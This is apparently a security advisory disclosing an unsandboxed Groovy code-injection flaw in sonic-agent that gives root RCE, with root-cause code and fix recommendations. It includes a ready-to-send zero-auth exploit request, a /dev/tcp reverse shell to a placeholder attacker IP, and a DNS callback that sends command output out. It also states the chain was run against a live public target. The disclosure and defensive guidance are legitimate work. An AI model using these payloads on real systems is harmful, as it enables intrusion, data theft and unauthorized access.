


# V-S002: Sonic Cloud Platform — Unsandboxed Groovy Script Execution Leads to RCE on Agent Host

## Vulnerability Information

| Field | Details |
|-------|---------|
| Product | Sonic Cloud Platform — sonic-agent |
| Version | ≤ v2.7.2 (latest) |
| Type | CWE-94: Improper Control of Generation of Code (Code Injection) |
| Severity | **Critical** |
| CVSS v3.1 Score | **9.9** |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| Repository | https://github.com/SonicCloudOrg/sonic-agent |
| Affected File | `sonic-agent/.../tests/script/GroovyScriptImpl.java` |

## Description

sonic-agent executes test case steps of type `runScript` (language: `Groovy`) by calling `new GroovyShell(binding).evaluate(script)` directly on the user-supplied script string. **No sandbox, no `SecureASTCustomizer`, no class-loader allowlist, and no `CompilerConfiguration` security policy is applied.**

This allows any attacker who can deliver a `runStep` message to the Agent's Transport WebSocket to execute arbitrary Java/Groovy — and through it, arbitrary OS commands — on the Agent host. In default Docker deployments, the Agent process runs as **root**.

**Two independent trigger paths exist:**

| Path | Authentication Required | Mechanism |
|------|------------------------|-----------|
| **A (zero-auth)** | None | Chain with V-S001: `POST /exchange/send` (no token) → injects `runStep` |
| **B (low-priv)** | Any registered user | Create a test case with a `runScript(Groovy)` step → execute it |

Path A makes this a **zero-authentication RCE** against any internet-exposed Sonic Server.

## Root Cause

**File:** `sonic-agent/src/main/java/org/cloud/sonic/agent/tests/script/GroovyScriptImpl.java`

```java
public class GroovyScriptImpl implements ScriptRunner {

    @Override
    public boolean runScript(LogUtil log, String script, Binding binding) {
        return evalIsFailed(log, script, binding);
    }

    private boolean evalIsFailed(LogUtil log, String script, Binding binding) {
        FutureTask<Object> task = new FutureTask<>(() ->
            new GroovyShell(binding).evaluate(script)
            // ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
            // No CompilerConfiguration
            // No SecureASTCustomizer
            // No ClassLoader allowlist
            // No SecurityManager policy
            // Full Java standard library accessible
        );
        Thread evalThread = new Thread(task);
        evalThread.setDaemon(true);
        evalThread.start();
        // Polls until done — no execution timeout sandbox
        while (!task.isDone()) { Thread.sleep(500); }
        return (boolean) task.get();
    }
}
```

**Dispatch path from Transport WebSocket to Groovy execution:**

```
TransportClient.onMessage()
  └─ case "runStep" → runAndroidStep(jsonObject)
       └─ AndroidTestTaskBootThread
            └─ AndroidRunStepThread.run()
                 └─ AndroidStepHandler.runStep(step)
                      └─ case "runScript":
                           if step.getText().equals("Groovy"):
                               GroovyScriptImpl.runScript(log, step.getContent(), binding)
                                    └─ new GroovyShell(binding).evaluate(script)  ← RCE
```

## Proof of Concept

### Path A — Zero-Authentication via V-S001

No credentials required. Deliver the `runStep` payload through the unauthenticated `/exchange/send` endpoint:

```http
POST /server/api/controller/exchange/send?id=1 HTTP/1.1
Host: <target>:3000
Content-Type: application/json

{
  "msg": "runStep",
  "pf": 1,
  "udId": "<device_udId>",
  "sessionId": "AndroidWSServer-<device_udId>",
  "cid": 0,
  "pwd": "",
  "gp": {},
  "steps": [{
    "step": {
      "stepType": "runScript",
      "text": "Groovy",
      "content": "new File('/tmp/groovy_rce.txt').text = ['id'].execute().text",
      "conditionType": 0,
      "disabled": 0,
      "elements": [],
      "parentId": 0,
      "sort": 1,
      "error": 1
    }
  }]
}
```

**Verification — read output file on Agent host:**
```bash
docker exec sonic-agent cat /tmp/groovy_rce.txt
# uid=0(root) gid=0(root) groups=0(root)
```

**Reverse shell payload:**
```groovy
['bash','-c','bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'].execute()
```

### Path B — Low-Privilege Authenticated User

1. Register/login to any account (open registration by default).
2. Create a project → create a test case → add a step: type=`runScript`, language=`Groovy`, content=malicious code.
3. Execute the test case.
4. Agent evaluates the Groovy without any sandbox.

This path proves the vulnerability exists **independently** of V-S001.

### DNSLOG Out-of-Band Verification

For environments where direct output retrieval is blocked, use DNS callback to confirm blind execution:

```groovy
['bash','-c','ping -c 1 $(id|base64).your.dnslog.cn'].execute()
```

The DNSLOG platform records the DNS query, confirming command execution with the user context encoded in the subdomain:



## Real-World Exploitation

FOFA query `"SonicCloudOrg"` reveals hundreds of publicly exposed Sonic instances.



Against a representative public target with 20+ connected Agents, the exploit chain (V-S001 + V-S002) was confirmed in under 60 seconds:

1. Enumerated Agent IDs and device `udId` from `/agents/list` and `/devices/list`
2. Sent unauthenticated `POST /exchange/send` with embedded Groovy payload
3. Received DNS callback confirming `uid=0(root)` execution on Agent host

## Impact

| Category | Detail |
|----------|--------|
| **Code Execution** | Arbitrary OS commands as root on Agent host |
| **Persistence** | Write SSH keys, crontab, or deploy reverse shells |
| **Data Exfiltration** | Agent stores APKs, recordings, screenshots, test credentials |
| **Device Control** | Full ADB access to all physically connected Android devices |
| **Lateral Movement** | Pivot to internal networks via Agent host network interfaces |
| **Supply Chain** | In CI/CD deployments: tamper with APK build artifacts |

## Fix Recommendation

| Priority | Action |
|----------|--------|
| **Critical** | Replace `GroovyShell` with a sandboxed evaluator: configure `CompilerConfiguration` with `SecureASTCustomizer` to allowlist safe AST node types only |
| **Critical** | Run sonic-agent as a non-root user inside the Docker container |
| **High** | Execute Groovy scripts inside an isolated subprocess with limited filesystem and network access (e.g., gVisor, Firecracker) |
| **Medium** | Static analysis of script content: reject patterns containing `Runtime`, `ProcessBuilder`, `File`, `exec`, `evaluate` |
| **Medium** | Audit log all `runScript` executions with author identity and script content |

### Sandboxed Evaluator Example

```java
import org.codehaus.groovy.control.CompilerConfiguration;
import org.codehaus.groovy.control.customizers.SecureASTCustomizer;

SecureASTCustomizer secure = new SecureASTCustomizer();
secure.setAllowedImports(List.of());           // No imports
secure.setPackageAllowed(false);
secure.setMethodDefinitionAllowed(false);
secure.setClosuresAllowed(true);
secure.setAllowedStaticImports(List.of());

CompilerConfiguration config = new CompilerConfiguration();
config.addCompilationCustomizers(secure);

new GroovyShell(binding, config).evaluate(script);
```
